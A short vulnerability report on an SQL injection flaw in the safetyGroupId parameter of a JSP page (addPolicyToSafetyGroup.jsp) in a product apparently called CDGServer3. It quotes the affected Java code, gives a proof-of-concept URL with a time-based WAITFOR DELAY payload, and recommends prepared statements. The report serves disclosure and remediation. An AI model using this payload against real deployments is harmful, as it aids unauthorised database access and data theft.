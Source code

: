 ![image-20250202155908568](./assets/image-20250202155908568.png)

# Vulnerability Report 

**Vulnerability Type**: SQL Injection

**Description**:
The following code(`addPolicyToSafetyGroup.jsp`) contains an SQL injection vulnerability in the `safetyGroupId` parameter. An attacker can exploit this vulnerability to construct malicious SQL queries, potentially accessing or manipulating sensitive information in the database.

**Affected Code**:

```java
String safetyGroupId = request.getParameter("safetyGroupId");
if (safetyGroupId != null && !"".equals(safetyGroupId)) {
    SafetyGroupInfo safetyGroupInfo = new SafetyGroupDao()
            .getSafetyGroup(safetyGroupId);
    session.setAttribute("safetyGroupInfo", safetyGroupInfo);
}
```

**PoC (Proof of Concept)**:
An attacker can exploit the SQL injection vulnerability using the following URL:

```
https://uri/CDGServer3/addPolicyToSafetyGroup.jsp?safetyGroupId=1';WAITFOR DELAY '0:0:10'--
```

This URL will cause the database to execute `WAITFOR DELAY '0:0:10'`, delaying the response by 10 seconds, proving the existence of the SQL injection vulnerability.

**Remediation Recommendations**:

1. Use prepared statements or stored procedures to handle SQL queries.
2. Apply strict filtering and escaping of user input parameters to avoid direct concatenation in SQL queries.
